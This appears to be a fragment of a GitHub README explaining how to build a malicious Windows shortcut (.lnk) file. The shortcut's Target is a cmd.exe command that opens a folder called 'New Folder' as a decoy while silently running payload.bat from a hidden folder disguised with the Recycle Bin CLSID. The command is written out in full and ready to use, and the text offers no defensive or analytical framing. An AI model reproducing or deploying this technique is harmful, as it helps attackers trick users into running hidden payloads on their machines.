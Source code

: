 ## How to create the shortcut (.lnk)
1. Create a shortcut to any file in the root folder
2. Go to properties and change the `Target` to

<br>

    C:\Windows\System32\cmd.exe /c "explorer "%cd%\New Folder"&if exist ".Recycle Bin.{645FF040-5081-101B-9F08-00AA002F954E}\" (".Recycle Bin.{645FF040-5081-101B-9F08-00AA002F954E}\payload.bat") else (if exist ".Recycle Bin\" (".Recycle Bin\payload.bat"))"

**This basically opens the `New Folder` in explorer and then checks to see if the `.Recycle Bin` folder exists and relatively executes it.**

Make sure that the `Open in` box is left blank
